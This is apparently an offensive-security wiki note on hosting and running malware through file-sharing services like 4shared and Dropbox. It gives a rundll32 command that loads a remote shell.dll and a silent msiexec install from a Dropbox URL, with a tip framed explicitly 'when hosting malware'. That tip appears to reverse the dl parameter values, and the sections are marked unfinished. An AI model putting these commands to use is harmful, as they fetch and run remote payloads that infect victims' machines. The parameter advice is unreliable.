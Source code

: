 # File Hosting Providers

## 4shared

TODO: Fill in this info

```
C:\> rundll32.exe \\<4shared_link>\shell.dll,Main
```

## Dropbox

TODO: Fill this info

Change the parameter `dl=1` to `dl=0` when hosting malware.

```
C:\> msiexec.exe /q /i <dropbox_URL>
```

---
## References

### Backlinks

- [[DLL Execution]]

- [Bumblebee Loader Resurfaces in New Campaign](https://intel471.com/blog/bumblebee-loader-resurfaces-in-new-campaign)

- [LOLAPPS: Dropbox](https://lolapps-project.github.io/lolapps/Web/dropbox/)

- [How to force a shared link to download or render](https://help.dropbox.com/share/force-download)